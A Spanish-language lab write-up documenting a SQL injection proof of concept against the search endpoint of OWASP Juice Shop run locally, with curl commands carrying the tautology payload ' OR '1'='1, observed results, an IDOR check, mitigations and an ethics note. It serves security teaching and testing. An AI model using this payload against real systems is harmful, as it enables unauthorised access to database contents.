





# PoC: SQL Injection - OWASP Juice Shop (Search)

**Fecha:** 2025-09-30  
**Entorno:** OWASP Juice Shop (local, Docker)


---

## Resumen
En este mini‑lab se comprobó una **inyección SQL (SQLi)** en el endpoint de búsqueda `GET /rest/products/search?q={query}`.  
Las pruebas se realizaron en un entorno controlado y local (Juice Shop en Docker). Ningún dato sensible ni token se publica en este documento.

---

## Objetivo
Mostrar una prueba de concepto (PoC) reproducible que evidencie cómo una entrada no parametrizada puede modificar la consulta SQL y devolver resultados no esperados.

---

## PoC (comando reproducible)
> Ejecutar **solo** en un entorno de pruebas local donde tengas permiso (por ejemplo Juice Shop levantado en Docker en `http://localhost:3000`).

# forma directa (URL codificada)

```
curl -s "http://localhost:3000/rest/products/search?q=%27%20OR%20%271%27%3D%271" | jq .
```

# alternativa equivalente (dejar que curl codifique)

```

curl -s --get --data-urlencode "q=' OR '1'='1" "http://localhost:3000/rest/products/search" | jq .
```

## Payload usado (legible)

```
' OR '1'='1

```
## Resultado observado

##### La respuesta del servidor fue del tipo:

```
{"status":"success","data":[ ... ]}

```


Es decir, la búsqueda devolvió múltiples productos como si la condición fuera siempre verdadera — comportamiento típico de una inyección SQL por tautología. Además, al probar payloads malformados (por ejemplo con caracteres que rompen la sintaxis SQL) se obtuvieron errores SQLITE_ERROR (HTTP 500) con trazas de la base de datos visibles en el entorno de pruebas, lo que refuerza la hipótesis de concatenación insegura de la entrada en consultas SQL.

## Comprobaciones adicionales realizadas

Captura de la petición y respuesta en DevTools (Network → XHR).

Extracción de endpoints desde HAR para mapear la API (endpoints.txt).

Verificación No‑IDOR comparando /rest/user/whoami y /rest/basket/6: ambos mostraron el mismo id de usuario (23) en este laboratorio, por lo que no se detectó acceso a recursos ajenos en ese caso concreto.

## Archivos de evidencia (sanitizados)












Importante: los archivos incluidos deben estar sanitizados (tokens/credenciales reemplazados por REDACTED). No subir HARs ni logs sin sanitizar.

## Recomendaciones / Mitigaciones

Usar prepared statements / consultas parametrizadas para evitar concatenar entradas directamente en SQL.

Validar y normalizar entradas del usuario (whitelist donde sea aplicable).

Evitar exponer mensajes de error de la base de datos en la UI; registrar trazas internamente y mostrar mensajes genéricos al usuario.

Implementar pruebas automáticas en CI: SAST + DAST + tests de integración no destructivos que verifiquen que payloads de prueba no provocan errores 500 con trazas SQL.

## Notas y ética

Estas pruebas se ejecutaron en un entorno local y controlado (Juice Shop en Docker).

No realices pruebas de este tipo contra sistemas que no sean de tu propiedad o donde no tengas autorización.

Si necesitas intercambio de artefactos originales para auditoría, compártelos privadamente y siempre tras sanitizarlos.

## Referencias / Recursos

OWASP Juice Shop — https://owasp.org/www-project-juice-shop/

OWASP Testing Guide — SQL Injection testing

OWASP ZAP — herramienta DAST útil para integración en CI
